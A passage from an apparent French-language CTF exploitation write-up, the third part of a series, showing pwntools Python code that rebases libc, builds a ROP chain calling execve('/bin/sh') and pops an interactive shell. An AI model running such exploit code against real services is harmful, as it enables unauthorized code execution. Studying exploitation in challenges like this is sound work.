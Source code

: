 # Troisième partie - Ecriture de la ropchain et pop du shell

Dans cette partie, nous allons écrire la ropchain sur la stack :

```
# execve("/bin/sh", NULL, NULL);`

pop rdi; ret
"/bin/sh"

pop rsi; ret
0x0

pop rdx; ret
0x0

libc->execve addr
```

```python
##########################################################################
##########################################################################
####################### WRITE PAYLOAD ####################################
##########################################################################
# Rebase libc
libc.address = addr_libc_start_main - libc.sym.__libc_start_main

# Payload:
 
payload = [
	libc_rop.find_gadget(['pop rdi', 'ret']).address + libc.address,
	next(libc.search('/bin/sh')),
	libc_rop.find_gadget(['pop rsi', 'ret']).address + libc.address,
	0x0,
	libc_rop.find_gadget(['pop rdx', 'ret']).address + libc.address,
	0x0,
	libc.sym.execve,
]

# Write ROP chain
for i, value in enumerate(payload):
	write(p, addr_ret + (i * 8), hex(value)[2:], game_round, i < len(payload) - 1)


##########################################################################
##########################################################################
####################### CLEAN AND POP SHELL ##############################
##########################################################################
remove_card_folder()

p.clean()
p.interactive()
```

# Liens utiles

- https://github.com/Gallopsled/pwntools
- https://blog.rchapman.org/posts/Linux_System_Call_Table_for_x86_64/
- https://ghidra-sre.org/
